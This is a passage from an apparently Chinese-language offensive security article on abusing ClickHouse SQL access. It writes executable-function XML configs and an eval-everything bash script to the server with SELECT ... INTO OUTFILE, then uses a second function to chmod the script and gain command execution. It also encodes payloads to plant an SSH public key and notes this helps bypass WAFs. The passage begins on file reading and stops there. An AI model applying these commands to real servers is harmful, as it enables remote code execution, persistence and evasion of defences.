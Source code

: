 来写脚本  
```
select '<functions>    <function>        <type>executable</type>        <name>test_shell</name>        <return_type>String</return_type>        <argument>            <type>String</type>            <name>str</name>        </argument>        <format>raw</format>        <command>test_shell.sh</command>        <lifetime>1</lifetime>    </function></functions>' into outfile '/etc/clickhouse-server/shell2_function.xml' TRUNCATE format rawselect '#!/bin/bashwhile read read_data;    do eval " $read_data ";done' into outfile '/var/lib/clickhouse/user_scripts/test_shell.sh' TRUNCATE format raw
```  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrRqb9icRaLQy4eicmuN2fcP4ja7QGwnd1GWWkMLPceCnKtjTq12jtTviatNZZG2HgUibpjCNWL1diaAbQ/640?wx_fmt=png&from=appmsg "")  
  
这个时候执行的时候会提示没有权限，答案是写入的test_shell.sh没有执行权限。  
  
所以在套娃一下  
```
select '<functions>    <function>        <type>executable</type>        <name>shell</name>        <return_type>String</return_type>        <format>raw</format>        <command>chmod +x /var/lib/clickhouse/user_scripts/test_shell.sh</command>        <execute_direct>0</execute_direct>        <lifetime>1</lifetime>    </function></functions>' into outfile '/etc/clickhouse-server/shell_function.xml' TRUNCATE format raw
```  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrRqb9icRaLQy4eicmuN2fcP4tuTdmZrdLMhric4k9kM5cRM3Fiaic7xWP3x5vorPdva5oOUWicaokVCLVA/640?wx_fmt=png&from=appmsg "")  
  
然后就有执行权限了  
### 0x06 encode  
  
有些情况下，我们输入的脚本过于复杂，就可以使用编码解码来进行写入  
  
https://clickhouse.com/docs/en/sql-reference/functions/string-functions#punycodedecode  
  
https://clickhouse.com/docs/en/sql-reference/functions/string-functions#base64encode  
  
https://clickhouse.com/docs/en/sql-reference/functions/hash-functions#sqidencode  
  
https://clickhouse.com/docs/en/sql-reference/functions/encoding-functions  
  
编码，解码的方式很多，base64，hex ，binary 等常见都可以  
  
这里直接使用binary编码后在解码写入公钥。  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrRqb9icRaLQy4eicmuN2fcP4pcic1C9VgxUiaRRs4Rgdr1M4lqgic5a4BZJF9nALtnZrUow3MIVCicouPQ/640?wx_fmt=png&from=appmsg "")  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrRqb9icRaLQy4eicmuN2fcP43hdjEIVUMaSibicsP3Qhmib8Oq4hAmfox0GCU819T9Je8vibsP4M3WOm7w/640?wx_fmt=png&from=appmsg "")  
  
  
也可以使用hex编码，char  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTrRqb9icRaLQy4eicmuN2fcP4lo3u1CXHhluzkVzicnoYVlaMVZribwS6AwwfqDsvZibygDbkzopCZ3dzA/640?wx_fmt=png&from=appmsg "")  
  
不用想，以后拿来绕waf极好的  
### 0x07 file 文件读取  
  
https://clickhouse.com/docs/en/sql-reference/table-functions/file  
  